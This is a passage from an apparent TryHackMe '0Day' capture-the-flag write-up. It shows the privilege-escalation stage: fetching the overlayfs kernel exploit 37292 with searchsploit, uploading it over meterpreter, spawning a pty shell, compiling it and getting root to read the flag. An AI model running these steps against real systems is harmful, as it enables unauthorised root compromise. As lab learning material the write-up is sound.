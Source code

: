 A quick research reveals that it's probably vulnerable to the following exploit:

[Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)

We prepare it:
~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ searchsploit -m 37292   
  Exploit: Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/37292
     Path: /usr/share/exploitdb/exploits/linux/local/37292.c
File Type: C source, ASCII text, with very long lines, with CRLF line terminators

Copied to: /home/marco/Desktop/THM/0Day/37292.c


                                                                                                  
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ dos2unix 37292.c   
dos2unix: converting file 37292.c to Unix format...
~~~

Upload it via meterpreter
~~~
meterpreter > cd /tmp
meterpreter > upload 37292.c
[*] uploading  : 37292.c -> 37292.c
[*] Uploaded -1.00 B of 4.85 KiB (-0.02%): 37292.c -> 37292.c
[*] uploaded   : 37292.c -> 37292.c
~~~

Open a shell to compile it with gcc (which luckily is available on the target)
~~~
meterpreter > shell
Process 1182 created.
Channel 74 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/tmp$ gcc -o exploit 37292.c
gcc -o exploit 37292.c
www-data@ubuntu:/tmp$ ls -al exploit
ls -al exploit
-rwxr-xr-x 1 www-data www-data 13652 Oct 21 22:41 exploit
~~~

Now we can run the exploit and take the flag:
~~~
www-data@ubuntu:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxxxxxx}
~~~
That was a nice little challenge and I loved loosing myself in the rabbit holes :)
